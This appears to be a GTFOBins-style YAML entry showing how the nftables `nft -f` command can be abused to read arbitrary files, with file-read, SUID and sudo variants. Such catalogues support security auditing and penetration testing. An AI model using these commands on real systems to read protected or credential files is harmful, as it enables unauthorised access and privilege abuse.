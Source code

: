 description: The content is actually parsed and corrupted by the command, thus it may not be suitable for arbitrary files. This requires version `nftables` v0.9.0.
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        nft -f "$LFILE"
  suid:
    - code: |
        LFILE=file_to_read
        ./nft -f "$LFILE"
  sudo:
    - code: |
        LFILE=file_to_read
        sudo nft -f "$LFILE"
---
